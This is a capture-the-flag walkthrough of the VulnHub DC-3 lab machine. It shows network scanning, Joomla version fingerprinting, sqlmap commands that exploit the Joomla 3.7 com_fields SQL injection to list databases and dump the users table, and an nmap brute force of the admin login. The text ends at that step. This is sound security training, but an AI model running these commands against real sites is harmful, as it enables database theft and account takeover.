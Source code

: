 # DC-3

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.100	08:00:27:5f:5e:41	PCS Systemtechnik GmbH
192.168.56.115	08:00:27:31:0f:a8	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.115`, let's scan it.

```bash
root@kali: nmap -sC -sV -p80 -v -oN nmap.out 192.168.56.115

Nmap scan report for 192.168.56.115
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
MAC Address: 08:00:27:31:0F:A8 (Oracle VirtualBox virtual NIC)

```

The only open port is port 80, so we have to work on the web application:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8d992b5c-3a5d-4d38-898d-917b0ca7228d)

visiting the site, Wappalyzer shows this is a `Joomla` cms, also cheking the target with Nikto shows afew interesting directories :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d70cfbff-32d9-4a05-b39c-3f9932602930)

so i visited the `/administrator` page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b467734b-1e5e-4c24-8038-4392ad61cca1)

this is actually a joomla CMS, let's find the version of it to see any exploit available

there is a tool called `joomscan` that does afew enumeration :

```bash
root@kali: joomscan --url http://192.168.56.115
```
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9a056c02-4bd8-43a7-9f4f-4e1fa4ec87e3)

you can also check for the version by visiting the below urls, but it gives an approximate version :

```bash
curl http://192.168.56.115/administrator/manifests/files/joomla.xml | grep version
 curl http://192.168.56.115/language/en-GB/en-GB.xml | grep version
```

then in searchsploit i found afew exploits :

```text
Joomla! 3.7 - SQL Injection | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection | php/webapps/42033.txt
```

the first one `44227` did not work, but the second one guides through a valid SQLi bug, i used the command mentioned in the document :

```bash
root@kali: #sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

sqlmap found the database in use, `joomladb`, then i tried to dump the data out of it, but did not work since it showed an error after running the below command :

```bash
root@kali: sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --T '#__users' --dump -p list[fullordering] --batch 
```
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8b690314-3d8d-4f09-bfc2-6d0a66c713df)

there must be something with the naming of the table which starts by `#`, so i went to another path and tried to brute force the admin panel

i used metasploit `auxiliary/scanner/http/joomla_bruteforce_login` but my system crushed every time i used this module, so i used nmap instead

put admin in user.txt

```bash
root@kali: nmap -v -sV --script http-joomla-brute --script-args 'userdb=/root/ctf/dc-3/user.txt,passdb=/usr/share/wordlists/rockyou.txt,http-joomla-brute.threads=3,brute.firstonly=true' 192.168.56.115
```























